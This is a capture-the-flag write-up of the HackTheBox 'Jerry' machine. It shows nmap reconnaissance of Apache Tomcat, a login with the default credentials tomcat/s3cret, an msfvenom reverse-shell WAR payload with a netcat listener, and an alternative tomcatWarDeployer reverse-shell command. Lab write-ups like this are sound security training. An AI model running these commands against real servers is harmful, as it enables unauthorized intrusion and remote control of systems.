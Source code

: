 ```yaml
---
title: "Jerry - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Jerry
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Jerry
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217112415.png)
 
## Reconnaissance

IP: 10.10.10.95
### NMAP

```
nmap -T4 -A -p- 10.10.10.95
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 05:27 EST
Nmap scan report for 10.10.10.95
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   31.17 ms 10.10.14.1
2   31.24 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.08 seconds

```

After running NMAP we can see that only port 8080 is open, and it is running Apache Tomcat
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217113322.png)
The site shows only default install of Tomcat
### Login

Let's try default credentials to Apache Tomcat 
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217113705.png)
tomcat/ s3cret work to get access to the Tomcat Manager Application

## Gaining Access

We can put WAR file on server, so let's make malicious WAR file via MSFVenom to get a reverse shell. As we can see on website, machine is running Windows Server 2012 R2 x64
https://github.com/Jflye/netsec/blob/master/msfvenomPayloads.md

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4443 -f war -o shell.war
```

Start listening

```
nc -nvlp 4443
```

Put payload on server and click deploy
Navigate to our payload

```
http://10.10.10.95:8080/shell/
```
and we have shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217115916.png)

Now we can take our flags by navigating to:

```
/users/administrator/desktop/flags
type "2 for the price of 1.txt"
```

we can also try do it with non-Metasploit method

https://github.com/mgeeky/tomcatWarDeployer

```
python tomcatWarDeployer.py -v -x -p 4449 -H 10.10.14.23 10.10.10.95:8080
```
